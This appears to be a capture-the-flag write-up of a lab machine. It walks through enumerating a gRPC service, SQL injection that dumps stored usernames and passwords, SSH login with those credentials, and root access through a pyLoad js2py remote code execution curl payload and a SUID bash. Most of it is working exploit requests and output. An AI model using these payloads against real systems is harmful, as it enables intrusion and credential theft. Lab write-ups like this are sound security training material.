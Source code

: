 ```
Host is up (0.053s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
```

## Recon


If we connect with nc we can see that response has problem with handshake and i investigate for it..
I also check with firefox and something in unicode appears as output.

Googling 50051 port i say sure it's a gRPC so we can dump the calls with `--describe` mode which show the usage of single class of REMOTE PROCEDURE CALL.

in Github there's basically 3 cool clients that help for the job! 
 
1) [grpc-curl]("https://github.com/xoofx/grpc-curl")
2) [grpcurl]("https://github.com/fullstorydev/grpcurl")
3) [grpcui]("https://github.com/fullstorydev/grpcui") The UI interface client edition :D



### The nice function

```
grpc-curl http://10.129.93.207:50051  --describe SimpleApp                                                                                                                           1 ⨯
// SimpleApp is a service:
service SimpleApp {
  rpc LoginUser ( .LoginUserRequest ) returns ( .LoginUserResponse );
  rpc RegisterUser ( .RegisterUserRequest ) returns ( .RegisterUserResponse );
  rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );
}

```

Nice so we can basically Login // Register // and to get //getInfo


```
grpcurl -plaintext -d '{"username":"code","password":"code"}' 10.129.93.207:50051 SimpleApp.RegisterUser
```

response:

```json
{
  "message": "Account created for user code!"
}
```

Now we can login with LoginUser function .. what is interesting here and that we have a responde with an id=rand_int e un token .




```http
POST /invoke/SimpleApp.LoginUser HTTP/1.1
Host: 127.0.0.1:38235
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:38235/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://127.0.0.1:38235
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[],"data":[{"username":"code","password":"code"}]}
```

response:

```html
HTTP/1.1 200 OK
Content-Type: application/json
Date: Tue, 23 May 2023 14:16:10 GMT
Content-Length: 586
Connection: close

{
  "headers": [
    {
      "name": "content-type",
      "value": "application/grpc"
    },
    {
      "name": "grpc-accept-encoding",
      "value": "identity, deflate, gzip"
    }
  ],
  "error": null,
  "responses": [
    {
      "message": {
        "message": "Your id is 740."
      },
      "isError": false
    }
  ],
  "requests": {
    "total": 1,
    "sent": 1
  },
  "trailers": [
    {
      "name": "token",
      "value": "b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTEyNH0.jZ1skXLcxEXP5oZhYLHGBl7T3OwFsrVBm2IHdvU_igw'"
    }
  ]
}

```

so now we can call getInfo with the provided id and token header



### Q&A 

id = is vulnerbale to sql injection!?? or is it a strange deserialization? 



let's try with sql injection! 


```html
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:33537
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:33537/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 223
Origin: http://127.0.0.1:33537
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTQwN30.voWz_2Pf3DfYLnHhLyieZ9rAYVmGK7APBrvMEfcln8U"}],"data":[{"id":"404 Union select sqlite_version();"}]}
```

it works so we know that we are talking with sqlite v 3.31.1


```html
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:33537
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:33537/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 273
Origin: http://127.0.0.1:33537
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTQwN30.voWz_2Pf3DfYLnHhLyieZ9rAYVmGK7APBrvMEfcln8U"}],"data":[{"id":"404 union SELECT group_concat(username || \",\" || password || \":\") from accounts;"}]}
```



response


```js
{
  "headers": [
    {
      "name": "content-type",
      "value": "application/grpc"
    },
    {
      "name": "grpc-accept-encoding",
      "value": "identity, deflate, gzip"
    }
  ],
  "error": null,
  "responses": [
    {
      "message": {
        "message": "admin,admin:,sau,HereIsYourPassWord1431:"
      },
      "isError": false
    }
  ],
  "requests": {
    "total": 1,
    "sent": 1
  },
  "trailers": []
}
```


## SSH

SSH works with sau : pass


## Privesc 


Found a service in 8000 port hosted by python engine:



so I decided to chisel and try to understand better what's the mechanism of that thing!


with the BIG help of nmap found the version and the possible flows that can lead of some critical stuff.

```
Host is up (0.00036s latency).

PORT     STATE SERVICE VERSION
8000/tcp open  http    CherryPy wsgiserver
|_http-server-header: Cheroot/8.6.0
|_http-favicon: Unknown favicon MD5: 71AAC1BA3CF57C009DA1994F94A2CC89
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http%3A%2F%2Flocalhost%3A8000%2F
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD



```


According with this [aritcle]("https://vulners.com/huntr/3FD606F7-83E1-4265-B083-2E1889A05E65") we can attack this service unauthenticated. we can inject arbitrary code abusing `js2py` funtionality due the lack of CSRF protection, a victim can be tricked to execute arbitrary python code.


so we can try to import a payload `pyimport os;os.system("touch /tmp/nice_job");f=function f2(){};;&package=xxx&crypted=AAAA&&passwords=aaaa'`

```
curl -X POST 127.0.0.1:8000/flash/addcrypted2 -d 'jk=pyimport%20os;os.system(%22touch%20/tmp/nice_job%22);f=function%20f2()%7B%7D;&package=xxx&crypted=AAAA&&passwords=aaaa'`
```



the nicest thing is to convert bash  in a suid so and boom we are root! 


`/bin/bash -p`